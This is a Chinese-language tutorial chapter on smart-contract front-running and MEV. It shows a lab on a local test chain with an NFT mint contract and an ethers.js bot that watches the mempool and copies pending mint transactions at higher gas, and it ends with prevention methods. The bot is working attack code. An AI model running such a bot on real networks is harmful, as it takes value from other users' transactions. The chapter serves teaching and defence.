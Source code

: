 # 11. 抢先交易

介绍智能合约的抢先交易（Front-running，抢跑）。据统计，以太坊上的套利者通过三明治攻击（sandwich attack）[共获利$12 亿](https://dune.com/chorus_one/ethereum-mev-data)。

## Front-running

### 传统抢跑

抢跑最初诞生于传统金融市场，是一场单纯为了利益的竞赛。在金融市场中，信息差催生了金融中介机构，他们可以通过最先了解某些行业信息并最先做出反应从而实现获利。这些攻击主要发生在股票市场交易和早期的域名注册。

2021 年 9 月，NFT 市场 OpenSea 的产品负责人 Nate Chastain，被发现通过抢先购买将在 OpenSea 首页展示的 NFT 获利。 他利用内幕信息来获得不公平的信息差，OpenSea 将要在首页推送哪些 NFT，然后在展出在首页前抢先买入，然后再在 NFT 登上首页后卖出。然而，有一个人通过将 NFT 交易时间戳与 OpenSea 上有问题的 NFT 的首页促销进行匹配，发现了这一非法行为，Nate 也被告上法院。

另一个传统抢跑的例子包括是在代币上[币安](https://www.wsj.com/articles/crypto-might-have-an-insider-trading-problem-11653084398?mod=hp_lista_pos4)/[coinbase](https://www.protocol.com/fintech/coinbase-crypto-insider-trading)等知名交易所之前，会有得知内幕消息的老鼠仓提前买入。在上币的公告发出后，币价会大幅上涨，这时抢跑者会卖出盈利。

### 链上抢跑

链上抢跑指的是搜索者或矿工通过调高`gas`或其他方法将自己的交易安插在其他交易之前，来攫取价值。在区块链中，矿工可以通过打包、排除或重新排序他们产生的区块中的交易来获得一定的利润，而`MEV`是衡量这种利润的指标。

在用户的交易被矿工打包进以太坊区块链之前，大部分交易会汇集到 Mempool（交易内存池）中，矿工在这里寻找费用高的交易优先打包出块，实现利益最大化。通常来说，`gas price`越高的交易，越容易被打包。同时，一些`MEV`机器人也会搜索 mempool 中有利可图的交易。比如，一笔在去中心化交易所中滑点设置过高的`swap`交易可能会被三明治攻击：通过调整`gas`，套利者会在这笔交易之前插一个买单，再在之后发送一个卖单，并从中盈利。这等效于哄抬市价。

## 抢跑实践

如果你学会了抢跑，你就算是入门的币圈科学家了。接下来，让我们实践一下，抢跑一笔铸造 NFT 的交易。我们将会用到的工具：

- `Foundry`的`anvil`工具搭建本地测试链，请提前安装好 `foundry`。
- `remix`进行 NFT 合约的部署和铸造
- `etherjs`脚本监听`mempool`并进行抢跑。

1. 启动`Foundry`本地测试链： 在安装好 `foundry` 之后，在命令行输入 `anvil --chain-id 1234 -b 10` 搭建本地测试链，`chain-id` 为 `1234`，每 `10` 秒产出一个区块。搭建成功后，它会在显示一些测试账户的地址和私钥，每个账户有 `10000 ETH`。你可以使用它们进行测试。

2. 将`Remix`连接到测试链： 打开 `Remix` 的部署页面，打开左上角的`Environment`下拉菜单，选`Foundry Provider`即可将 `Remix` 连接到测试链。

3. 部署 NFT 合约： 在 `Remix` 上部署一个简单的 `freemint`（免费铸造）NFT 合约。它有一个`mint()`，用于免费铸造 NFT。

```js
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.21;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// 我们尝试frontrun一笔Free mint交易
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // 铸造函数
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

1. 部署`ethers.js`抢跑脚本： 简单来说，`frontrun.js`脚本监听了测试链`mempool`中的未决交易，筛选出调用了`mint()`的交易，然后复制它并调高`gas`进行抢跑。

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. 创建provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork();
network.then((res) =>
  console.log(
    `[${new Date().toLocaleTimeString()}] 连接到 chain ID ${res.chainId}`
  )
);

// 2. 创建interface对象，用于解码交易详情。
const iface = new utils.Interface(["function mint() external"]);

// 3. 创建钱包，用于发送抢跑交易
const privateKey =
  "0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a";
const wallet = new ethers.Wallet(privateKey, provider);

const main = async () => {
  // 4. 监听pending的mint交易，获取交易详情，然后解码。
  console.log("\n4. 监听pending交易，获取txHash，并输出交易详情。");
  provider.on("pending", async (txHash) => {
    if (txHash) {
      // 获取tx详情
      let tx = await provider.getTransaction(txHash);
      if (tx) {
        // filter pendingTx.data
        if (
          tx.data.indexOf(iface.getSighash("mint")) !== -1 &&
          tx.from != wallet.address
        ) {
          // 打印txHash
          console.log(
            `\n[${new Date().toLocaleTimeString()}] 监听Pending交易: ${txHash} \r`
          );

          // 打印解码的交易详情
          let parsedTx = iface.parseTransaction(tx);
          console.log("pending交易详情解码：");
          console.log(parsedTx);
          // Input data解码
          console.log("raw transaction");
          console.log(tx);

          // 构建抢跑tx
          const txFrontrun = {
            to: tx.to,
            value: tx.value,
            maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
            maxFeePerGas: tx.maxFeePerGas * 1.2,
            gasLimit: tx.gasLimit * 2,
            data: tx.data,
          };
          // 发送抢跑交易
          var txResponse = await wallet.sendTransaction(txFrontrun);
          console.log(`正在frontrun交易`);
          await txResponse.wait();
          console.log(`frontrun 交易成功`);
        }
      }
    }
  });

  provider._websocket.on("error", async () => {
    console.log(`Unable to connect to ${ep.subdomain} retrying in 3s...`);
    setTimeout(init, 3000);
  });

  provider._websocket.on("close", async (code) => {
    console.log(
      `Connection lost with code ${code}! Attempting reconnect in 3s...`
    );
    provider._websocket.terminate();
    setTimeout(init, 3000);
  });
};

main();
```

5. 调用`mint()`函数： 在 `Remix` 的部署页面调用 `Freemint` 合约的`mint()` 函数，进行 NFT 铸造。

6. 脚本监听到交易并进行抢跑 我们可以在终端看到 `frontrun.js` 脚本成功监听到了交易，并进行了抢跑。如果你调用 NFT 合约的 `ownerOf()` 函数查看 `tokenId` 为 `0` 的持有者是抢跑脚本中的钱包地址，证明抢跑成功！。

## 预防方法

抢先交易是以太坊等公链上普遍存在的问题。我们没法消除它，但是可以通过减少交易顺序或时间的重要性，减少被抢先交易的收益：

- 使用预提交方案(commit-reveal scheme)。
- 使用暗池，用户发出的交易将不进入公开的`mempool`，而是直接到矿工手里。例如 flashbots 和 TaiChi。
- 在调用参数中加上保护性参数，如[滑点保护](https://uniswapv3book.com/milestone_3/slippage-protection.html)，从而减少抢跑者的潜在收益。
